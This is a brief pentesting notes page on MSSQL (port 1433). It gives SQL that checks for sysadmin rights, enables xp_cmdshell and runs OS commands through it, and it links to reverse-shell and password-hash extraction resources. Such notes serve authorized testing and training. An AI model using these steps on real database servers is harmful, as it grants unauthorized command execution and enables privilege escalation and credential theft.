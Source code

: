 # 1433 - MSSQL

## Connect to MSSQL from Kali

{% page-ref page="../../kits-1/tools-1/mssqlclient.py-impacket.md" %}

## MSSQL for PrivEsc

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
-----------
          1

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;

EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

xp_cmdshell "whoami"
```

{% hint style="info" %}
Compare the following syntax \(note the `;)`

* `EXEC xp_cmdshell "whoami";`
* `xp_cmdshell "whoami"`
{% endhint %}

{% page-ref page="../../collections/reverse-shell/shell-powershell.md" %}

## MSSQL System Databases

Documentation: [https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions](https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions)

To restore backups \(.bak\) or read database files \(.mdf and .ldf\) offline: 

* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)
* [https://rastating.github.io/from-lfi-to-sql-database-backup/](https://rastating.github.io/from-lfi-to-sql-database-backup/)

